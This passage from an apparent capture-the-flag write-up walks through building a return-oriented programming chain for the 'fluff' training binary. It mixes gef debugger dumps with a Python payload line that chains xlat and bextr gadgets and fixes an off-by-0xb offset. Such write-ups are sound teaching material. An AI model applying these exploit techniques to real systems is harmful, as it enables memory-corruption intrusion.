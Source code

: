 ```
[#5] 0x7fff5414a80a → in eax, dx
[#6] 0x7fb4d4414000 →  <_rtld_global+0> rcl BYTE PTR [rdx+0x41], 0xd4
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  i r rax
rax            0x67                0x67
```

wait, why do we get `0x67` it should be `0x66` what's going on? let's try that 
again and see the register before `xlat` maybe `rax` is something before `xlat` 
and that might interfere with our payload.

```
●→   0x400628 <questionableGadgets+0> xlat   BYTE PTR ds:[rbx]
     0x400629 <questionableGadgets+1> ret
●    0x40062a <questionableGadgets+2> pop    rdx
     0x40062b <questionableGadgets+3> pop    rcx
     0x40062c <questionableGadgets+4> add    rcx, 0x3ef2
     0x400633 <questionableGadgets+11> bextr  rbx, rcx, rdx
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "fluff", stopped 0x400628 in questionableGadgets (), reason: BREAKPOINT
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x400628 → questionableGadgets()
[#1] 0x4006a3 → __libc_csu_init()
[#2] 0x400639 → questionableGadgets()
[#3] 0x4006a3 → __libc_csu_init()
[#4] 0x400510 → pwnme@plt()
[#5] 0x7fff5414a80a → in eax, dx
[#6] 0x7fb4d4414000 →  <_rtld_global+0> rcl BYTE PTR [rdx+0x41], 0xd4
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  i r rax
rax            0xb                 0xb
```

i see, that's why we don't get `0x66` or `f`, the offset might point to something else, 
so let's calculate where we are going to point to before `xlat` is executed by 
subtracting `0xb` from the address.

```python
...
payload = padding + p64(bextr) + p64(0x4000) + p64(0x004003c4 - add_rcx - 0xb)
...
```

```
     0x400626 <usefulFunction+15> pop    rbp
     0x400627 <usefulFunction+16> ret
●    0x400628 <questionableGadgets+0> xlat   BYTE PTR ds:[rbx]
 →   0x400629 <questionableGadgets+1> ret
   ↳    0x4006a3 <__libc_csu_init+99> pop    rdi
        0x4006a4 <__libc_csu_init+100> ret
        0x4006a5                  nop
        0x4006a6                  cs     nop WORD PTR [rax+rax*1+0x0]
        0x4006b0 <__libc_csu_fini+0> repz   ret
        0x4006b2                  add    BYTE PTR [rax], al
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "fluff", stopped 0x400629 in questionableGadgets (), reason: SINGLE STEP
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x400629 → questionableGadgets()
[#1] 0x4006a3 → __libc_csu_init()
[#2] 0x400639 → questionableGadgets()
```